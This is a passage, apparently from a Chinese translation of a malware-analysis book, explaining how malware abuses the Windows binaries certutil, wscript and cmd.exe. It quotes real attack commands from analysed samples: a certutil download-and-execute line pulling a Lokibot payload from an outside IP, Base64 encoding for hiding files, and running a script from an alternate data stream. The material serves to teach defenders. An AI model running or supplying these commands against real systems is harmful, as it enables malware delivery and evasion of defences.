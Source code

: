 ##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">Certutil</samp>

*certutil.exe* 二进制文件是 Windows 证书服务组件的一部分，可用于显示信息、验证、配置和安装数字证书。攻击者可以通过几种有趣的方式滥用它。例如，一个恶意的 Microsoft Excel 文档 (<samp class="SANS_TheSansMonoCd_W5Regular_11">SHA256:d009299a787cf9b7995827014e72525038eecd3e1f99820d66854fc865d39047</samp>) 下载并执行了来自远程服务器的 Lokibot 有效载荷，命令如下：

```
C:\> certutil.exe -urlcache -split -f "http://45.155.165.63/tq/loader/uploads/Product_Details
_018_RFQ.exe" Zcldxvqciopgykje.exe
```

该命令调用 certutil，从 Web 服务器（45.155.165.63）下载一个可执行文件 (*Zcldxvqciopgykje.exe*)，并执行它。

恶意软件也可以使用 certutil 来编码或解码文件，方法如下：

```
C:\> certutil -encode evil.dll evil_encoded.dll
```

<samp class="SANS_TheSansMonoCd_W5Regular_11">-encode</samp> 开关告诉 certutil 对文件进行 Base64 编码（我们将在第十六章中讨论 Base64）。以这种方式编码文件可以作为一种粗略的方法，将文件隐藏在磁盘上，或者在从网络中导出数据时混淆数据，以绕过网络防御。Certutil 是多用途 LOLBin 的一个很好的例子。

##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">Windows 脚本宿主</samp>

Windows 包含多个内置工具，作为 *Windows 脚本宿主（WSH）* 的一部分，用于运行脚本语言，如 VBScript（*.vbs* 和 *.vbe* 文件）和 JavaScript（*.js* 和 *.jse* 文件）。像 *wscript.exe* 和 *cscript.exe* 这样的工具是 WSH 的一部分。这些工具可以从命令行执行，或者作为新进程启动，用于运行各种类型的脚本文件。与用 C++ 编写可执行文件相比，脚本编写要简单得多，因此一些恶意软件利用了这一点。一个例子是，一个嵌入了代码的 Microsoft Word 文档 (<samp class="SANS_TheSansMonoCd_W5Regular_11">SHA256: ccc8d5aa5d1a682c20b0806948bf06d1b5d11961887df70c8902d2146c6d1481</samp>) 会将一个 JavaScript 文件写入磁盘，并使用 *wscript.exe* 通过以下命令执行该脚本：

```
C:\> wscript.exe C:\Users\Public\olapappinuggerman.js
```

执行时，脚本会从恶意软件家族 OriginLogger 中下载一个样本。这个恶意文档是一个多阶段攻击的一部分，后续还会调用 *mshta.exe*。

*wscript.exe* 二进制文件还可以直接从 NTFS 替代数据流（ADS）中执行脚本文件，稍后在本章中会讲到。现在，只需知道恶意软件可以将文件隐藏在 ADS 中，这有效地将它们隐藏于不被窥探的视野之外，并避开某些终端防御。要执行隐藏在另一文件中的 ADS 中的脚本文件，可以使用以下命令：

```
C:\> wscript.exe C:\innocent.txt:evil_script.vb
```

脚本通常不在本书的范围内，但请注意，现代威胁通常使用像 JavaScript 和 VBScript 这样的脚本语言，这些脚本语言可以通过 Windows 内置的脚本解释器轻松执行。

#### <samp class="SANS_Futura_Std_Bold_Condensed_Oblique_I_11">Windows 命令行及其他实用工具</samp>

内置的命令提示符（*cmd.exe*），它是 Windows 中默认的命令行工具，广泛用于合法和恶意目的。例如，恶意软件可以利用命令行终止进程、删除文件、进行系统配置更改以及删除备份。它使用的一些命令也可以归类为 LOLBin 攻击，因为*cmd.exe*常常用于执行其他工具。恶意软件通常通过创建新进程（例如调用<samp class="SANS_TheSansMonoCd_W5Regular_11">CreateProcess</samp>）并将其希望运行的命令作为参数传入来调用命令提示符。

命令提示符最常见的使用方式之一是直接执行其他文件和应用程序。下面的代码可能类似于以下内容，它调用了一个名为*flashplayer.exe*的可执行文件：

```
`--snip--`
lpCommandLine = "cmd.exe /c C:\Users\John\AppData\Local\Temp\flashplayer.exe"

CreateProcessW (..., lpCommandLine, ... )
`--snip--`
```
